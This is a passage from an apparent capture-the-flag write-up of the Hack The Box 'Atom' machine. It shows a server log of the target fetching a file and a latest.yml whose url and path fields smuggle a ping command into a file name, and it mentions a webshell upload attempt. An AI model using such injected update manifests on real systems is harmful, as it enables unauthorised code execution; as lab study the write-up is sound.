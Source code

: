 ```bash
┌──(mac㉿kali)-[~/Documents/HTB/atom]
└─$ sudo python3 -m http.server 80
[sudo] password for mac: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.237 - - [26/Apr/2021 21:15:00] code 404, message File not found
10.10.10.237 - - [26/Apr/2021 21:15:00] "GET /heedv1'Setup1.0.1.exe.blockmap HTTP/1.1" 404 -
10.10.10.237 - - [26/Apr/2021 21:15:00] "GET /heedv1%27Setup1.0.1.exe HTTP/1.1" 200 -
```

In fact, it got recurring download requests while the file sat in the samba server. So I was on the right track and had fixed the syntax - but still got no netcat hit.

I wondered if I needed to create a blockmap file. First, I tried one last attempt at a command injection:

```yaml
version: 1.0.1
files:
  url: http://10.10.14.193/heedv1';ping -n 1 10.10.14.193;'Setup1.0.1.exe
  sha512: 0BsRscpeO3lQvkaP1fqRYWyw3lelkI/2qJ1BsshauD8kJ39nHJKFanTUVpUNRotgKkVljcEy/Is9U87FIbYrPw==
  size: 73802
path: http://10.10.14.193/heedv1';ping -n 1 10.10.14.193;'Setup1.0.1.exe
sha512: 0BsRscpeO3lQvkaP1fqRYWyw3lelkI/2qJ1BsshauD8kJ39nHJKFanTUVpUNRotgKkVljcEy/Is9U87FIbYrPw==
releaseDate: '2021-04-21T11:17:02.627Z'
```

But I got nothing.

I tried a couple more things here, including trying to upload a webshell into the `/releases` directory (in case files were placed there after being requested), but didn't get anywhere with this strategy.

## Automation

At this point I decided to automate the process in Python. I learned a lot from this process about proper use of `argparse` for building a script with command-line arguments. The code is available [here](https://github.com/Twigonometry/CTF-Tools/blob/master/hack_the_box/atom/send-payload.py).

You can [read about the way I built the code](#automation-1), or you can read on for the final payload.

## Final Payload

Automating the foothold allowed me to easily change my YAML structure and re-send the payload. This exposed a lot of frustrating things about the box.

Firstly, the box was very temperamental about whether or not it would request my file. It would often not 'consume' my `latest.yml` file - I maximised my chances by putting it to each of the three client folders.

The other frustration was that I eventually found the correct YAML syntax - but for a reason I am still unsure about, the filename I was using didn't trigger the execution of the exe.

To fix it, I spent a lot of time verifying each step, such as checking the SHA sum. I eventually had to compare my YAML to a friend's who had completed the box. He had the exact same syntax (and sequence of commands) but with a shorter filename. Changing my filename to match his gave me a shell. Read on for the details.
